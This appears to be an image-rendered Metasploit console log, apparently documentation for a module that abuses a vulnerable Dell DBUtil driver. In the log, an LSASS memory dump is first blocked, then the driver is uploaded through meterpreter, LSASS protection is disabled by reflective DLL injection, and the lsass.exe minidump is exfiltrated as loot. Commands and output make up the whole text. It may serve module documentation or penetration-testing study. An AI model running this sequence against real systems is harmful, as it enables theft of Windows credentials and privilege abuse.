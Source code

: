 ```
============

 PID  PPID  Name       Arch  Session  User  Path
 ---  ----  ----       ----  -------  ----  ----
 732  568   lsass.exe  x64   0

meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use post/windows/gather/memory_dump
msf post(windows/gather/memory_dump) > set SESSION 1
SESSION => 1
msf post(windows/gather/memory_dump) > set PID 732
PID => 732
msf post(windows/gather/memory_dump) > set DUMP_PATH C:\\Windows\\Temp\\lsass_dump
DUMP_PATH => C:\Windows\Temp\lsass_dump
msf post(windows/gather/memory_dump) > run

[*] Running module against DESKTOP-JCD6JN8
[*] Dumping memory for lsass.exe
[-] Post aborted due to failure: payload-failed: Unable to open process: Access is denied.
[*] Post module execution completed
msf post(windows/gather/memory_dump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > upload /home/albinolobster/drivers/2_5/ C:\\Windows\\Temp\\
[*] uploading  : /home/albinolobster/drivers/2_5/DBUtilDrv2.cat -> C:\Windows\Temp\\DBUtilDrv2.cat
[*] uploaded   : /home/albinolobster/drivers/2_5/DBUtilDrv2.cat -> C:\Windows\Temp\\DBUtilDrv2.cat
[*] uploading  : /home/albinolobster/drivers/2_5/dbutildrv2.inf -> C:\Windows\Temp\\dbutildrv2.inf
[*] uploaded   : /home/albinolobster/drivers/2_5/dbutildrv2.inf -> C:\Windows\Temp\\dbutildrv2.inf
[*] uploading  : /home/albinolobster/drivers/2_5/DBUtilDrv2.sys -> C:\Windows\Temp\\DBUtilDrv2.sys
[*] uploaded   : /home/albinolobster/drivers/2_5/DBUtilDrv2.sys -> C:\Windows\Temp\\DBUtilDrv2.sys
meterpreter > background
[*] Backgrounding session 1...
msf post(windows/gather/memory_dump) > use post/windows/manage/dell_memory_protect 
msf post(windows/manage/dell_memory_protect) > set SESSION 1
SESSION => 1
msf post(windows/manage/dell_memory_protect) > set DRIVER_PATH C:\\Windows\\Temp\\
DRIVER_PATH => C:\Windows\Temp\
msf post(windows/manage/dell_memory_protect) > set PID 732
PID => 732
msf post(windows/manage/dell_memory_protect) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Launching netsh to host the DLL...
[+] Process 3508 launched.
[*] Reflectively injecting the DLL into 3508...
[+] Exploit finished
[*] Post module execution completed
msf post(windows/manage/dell_memory_protect) > use post/windows/gather/memory_dump 
msf post(windows/gather/memory_dump) > run

[*] Running module against DESKTOP-JCD6JN8
[*] Dumping memory for lsass.exe
[*] Downloading minidump (5.93 MiB)
[+] Memory dump stored at /home/albinolobster/.msf4/loot/20211208072121_default_172.16.144.6_windows.process._495675.bin
[*] Deleting minidump from disk
[*] Post module execution completed
msf post(windows/gather/memory_dump) > 
```
